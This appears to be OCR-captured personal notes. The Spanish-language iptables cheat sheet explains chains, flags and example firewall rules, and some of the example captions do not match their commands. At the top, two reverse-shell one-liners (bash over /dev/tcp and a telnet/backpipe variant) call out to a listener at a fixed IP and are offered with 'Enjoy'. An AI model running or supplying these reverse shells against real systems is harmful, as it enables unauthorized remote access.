 #nc -n -vv -l -p 666
#/bin/bash -i > /dev/tcp/192.9.200.10/666 0<&1 2>&1 
Enjoy

#nc -n -vv -l -p 666
#mknod backpipe p && telnet 192.9.200.10 666 0<backpipe | /bin/bash 1>backpipe
Enjoy



 _  ___ ___  _   ___ _    ___  __ 
| || o \_ _|/ \ | o ) |  | __|/ _|
| ||  _/| || o || o \ |_ | _| \_ \
|_||_|  |_||_n_||___/___||___||__/

IPTABLES

chains: INPUT/OUTPUT/FORWARD
rules: ACCEPT/DROP(descarta)/REJECT(rechaza)/POSTROUTING(encaminamiento posterior)
       /PREROUTING(encaminamiento previo)/SNAT/NAT

-A                   "añade una cadena, la opcion -i define una interfaz de trabajo entrante"
-o                   "define una interfaz para trabajo saliente"
-j                   "añade una regla de destino del tráfico, que puede ser ACCEPT, DROP, REJECT
-m                   "define que se aplica la regla si hay una coinncidencia especifica"
--state              "define una lista de distinto estados de las conexiones (INVALID, ESTABLISHED, NEW, RELATED)"
--to-source          "define que IP reportar al trafico externo"
-s                   "define trafico de origen"
-d                   "define trafico de destino"
--source-port        "define el puerto desde el que se origina la conexion"
--destinatio-port    "define el puerto hacia el que se dirige la conexion"
-t                   "tabla a utilizar, pueder ser nat, filter, mangle o raw"

Ejemplos de Reglas:

#iptables -A FORWARD -i eth0 -o eth0 -j ACCEPT
"Reenvío desde una interfaz de red local (eth1) hacia una interfaz de red publica (eth0)

#iptables -A FORWARD -i eth0 -o eth1 -m state --state ESTABLISHED,RELATED -j ACCEPT
"Aceptar reenviar los paquetes que son parte de conexiones existentes (ESTABLISHED) o relacionadas de tráfico entrante desde la interfaz eth1 para tráfico saliente por la interfaz eth0:"

#iptables -A INPUT -i eth0 -m state --state ESTABLISHED,RELATED -j ACCEPT
"Permitir paquetes en el pro	pio muro cortafuegos para tráfico saliente a través de la interfaz eth0 que son parte de conexiones existentes o relacionadas:"

#iptables -A INPUT -i eth1 -s 0/0 -d 0/0 -j ACCEPT
#iptables -A INPUT -i lo -s 0/0 -d 0/0 -j ACCEPT
"Permitir (ACCEPT) todo el tráfico entrante (INPUT) desde (-s) cualquier dirección (0/0) la red local (eth1) y desde el retorno del sistema (lo) hacia (-d) cualquier destino (0/0):"

#iptables -A POSTROUTING -t nat -s 192.168.0.0/24 -o eth0 -j SNAT --to-source x.y.z.c
"Hacer (-j) SNAT para el tráfico saliente (-o) a tráves de la interfaz eth0 proveniente desde (-s) la red local (192.168.0.0/24) utilizando (--to-source) la dirección IP w.x.y.z."
